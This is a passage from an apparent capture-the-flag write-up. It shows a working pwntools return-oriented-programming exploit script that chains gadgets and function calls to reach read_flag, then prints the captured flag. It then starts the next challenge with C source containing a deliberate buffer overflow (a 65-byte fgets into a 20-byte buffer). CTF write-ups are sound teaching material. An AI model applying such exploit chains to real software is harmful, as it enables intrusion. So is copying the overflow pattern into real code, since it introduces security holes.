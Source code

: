 ```python
# ========================= #

offset = 22
gadget1 = 0x0804901e # pop ebx; ret; 
gadget2 = 0x080493ea # pop edi; pop ebp; ret; 

# Build the payload
payload = flat({
    offset: [
        elf.symbols['check_capcha'],
        gadget2,
        0x062023,
        0xbf1212,
        elf.symbols['check_african'],
        elf.symbols['check_flag'],
        gadget1,
        0x804b033,
        elf.symbols['check_invitecode'],
        gadget1,
        0xbae,
        elf.sym['read_flag']
    ]
})

# Send the payload
io.sendline(payload)

io.interactive()
```

Running it locally works
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/380811b2-156c-443f-9bda-f49ff2454fd1)

It also works remotely
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/32741791-3edd-4dc2-ac3c-6c390bb4efc4)

```
Flag: battleCTF{rop_Afr1cA_x_7352adb6a9fd43b762413112a9695fde}
```

#### AM1
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/c9a98579-4611-4201-a915-45974163e360)

After downloading the attached file and unzipping it shows that the source code is given

Here's the content
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/e0b6688d-09fd-4d73-b6a6-24f0270f4a55)

```c
//gcc -o am1 am1.c -no-pie
#include <stdio.h>
#include <stdlib.h>


void print_file(char * file)
{
	char buffer[20];
	FILE * inputFile = fopen( file, "r" );
	if ( inputFile == NULL ) {
        printf( "Cannot open file %s\n", file );
        exit( -1 );
    }
    fgets( buffer, 65, inputFile );
    printf("Output: %s",buffer);
```